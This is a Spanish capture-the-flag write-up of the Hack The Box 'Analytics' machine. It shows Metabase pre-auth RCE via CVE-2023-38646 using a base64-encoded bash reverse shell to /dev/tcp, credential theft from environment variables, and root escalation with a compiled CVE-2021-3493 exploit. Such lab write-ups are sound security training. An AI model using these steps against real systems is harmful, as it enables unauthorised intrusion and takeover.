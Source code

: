 ```yaml
---
layout: single
title: Analytics - Machines - Hack The Box
excerpt: "Analytics es una máquina Linux de dificultad fácil que implica explotar una vulnerabilidad en la herramienta Metabase, lo que nos permite la ejecución remota de código (RCE).
date: 2023-10-10
classes: wide
header:
  teaser: /assets/images/htb-writeup-analytics/analytics.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - machines
 
tags:  
  - burpsuite
  - cve-2023-38646
  - cve-2021-3493
  - rce
  
---
```


![](/assets/images/htb-writeup-analytics/analytics_logo.png)

Analytics es una máquina Linux de dificultad fácil que implica explotar una vulnerabilidad en la herramienta Metabase, lo que nos permite la ejecución remota de código (RCE).

# 1. Enumeración
   
Iniciamos con un escaneando de puertos de la máquina con Nmap.

## Portscan
Encontramos dos puertos abiertos. 
 -	22 de SSH 
 -	80 de HTTP

![](/assets/images/htb-writeup-analytics/analytics2.png)

Observamos un dominio y un subdominio que debemos agregar a nuestro archivo /etc/hosts.

![](/assets/images/htb-writeup-analytics/analytics3.png)

Agregamos los dominios y subdominios identificados.

 -	Analytics.htb

 -	Data.analytics.htb

![](/assets/images/htb-writeup-analytics/analytics4.png)

Navegamos sobre el sitio web e identificamos un portal de inicio de sesión donde ejecuta Metabase la cual es una herramienta de inteligencia empresarial de código abierto que le permite crear gráficos y paneles utilizando datos de una variedad de bases de datos y fuentes de datos. 

![](/assets/images/htb-writeup-analytics/analytics5.png)

# 2.	Explotación

Buscamos vulnerabilidades asociadas a esta herramienta e identificamos el CVE-2023-38646 el cual permite un RCE.

 -	PoC: https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase/

La siguiente carga útil nos permitirá un RCE, para ello vamos a necesitar identificar el token el cual vamos a encontrar en la ruta /api/session/properties.

También vamos a necesitar codificar en base 64 un rever Shell.

 -	bash -i >&/dev/tcp/<IP>/<PORT> 0>&1

![](/assets/images/htb-writeup-analytics/analytics6.png)

Debemos poner nuestro equipo atacante a la escucha por el puerto del reverse Shell y enviar la solicita a través de BurSuite.

![](/assets/images/htb-writeup-analytics/analytics7.png)

Vamos a obtener un Shell como usuario metabase.

![](/assets/images/htb-writeup-analytics/analytics8.png)

Luego de un buen tiempo, ejecutamos el comando “env” vamos a identificar la contraseña del usuario “metalytics”.

![](/assets/images/htb-writeup-analytics/analytics9.png)

Usamos las credenciales obtenidas para iniciar sesión por SSH.

![](/assets/images/htb-writeup-analytics/analytics10.png)

De esta manera obtenemos nuestra primera flag.

![](/assets/images/htb-writeup-analytics/analytics11.png)

# 3.	Escalada de privilegios

Des pues de un tiempo buscando una forma de escalar privilegios, identificamos el siguiente exploit disponible.

-	Expoit: https://github.com/briskets/CVE-2021-3493
  
Vamos a clonarlo a nuetstra maquina y ejecutamos el siguiente comando para generar nuestro script.

-	gcc exploit.c -o exploit
  
Luego vamos a levantar un servidor en nuestra maquina atacante para descargar el explot a la maquina víctima.

![](/assets/images/htb-writeup-analytics/analytics12.png)

Descargamos nuestro exploit y otorgamos permisos de ejecución.

![](/assets/images/htb-writeup-analytics/analytics13.png)

Ejecutamos nuestro exploit, el cual permitirá elevar privilegios a root. A hora podemos leer nuestra segunda flag.

![](/assets/images/htb-writeup-analytics/analytics14.png)




